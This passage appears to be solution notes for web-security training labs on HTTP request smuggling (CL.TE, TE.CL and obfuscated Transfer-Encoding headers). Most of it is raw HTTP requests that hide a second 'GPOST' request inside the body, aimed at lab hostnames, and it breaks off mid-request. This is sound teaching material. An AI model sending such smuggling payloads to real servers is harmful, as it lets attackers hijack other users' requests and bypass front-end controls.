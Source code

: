 Using Burp Repeater, issue the following request twice:

`POST / HTTP/1.1  
Host: your-lab-id.web-security-academy.net  
Connection: keep-alive  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 6  
Transfer-Encoding: chunked  
  
0  
  
G`

The second response should say: `Unrecognized method GPOST`.

### Lab: HTTP request smuggling, basic TE.CL vulnerability

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:

`POST / HTTP/1.1  
Host: your-lab-id.web-security-academy.net  
Content-Type: application/x-www-form-urlencoded  
Content-length: 4  
Transfer-Encoding: chunked  
  
5c  
GPOST / HTTP/1.1  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 15  
  
x=1  
0  
  
`

**Note**

You need to include the trailing sequence `\r\n\r\n` following the final `0`.

The second response should say: `Unrecognized method GPOST`.

### Lab: HTTP request smuggling, obfuscating the TE header

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:

`POST / HTTP/1.1  
Host: your-lab-id.web-security-academy.net  
Content-Type: application/x-www-form-urlencoded  
Content-length: 4  
Transfer-Encoding: chunked  
Transfer-encoding: cow  
  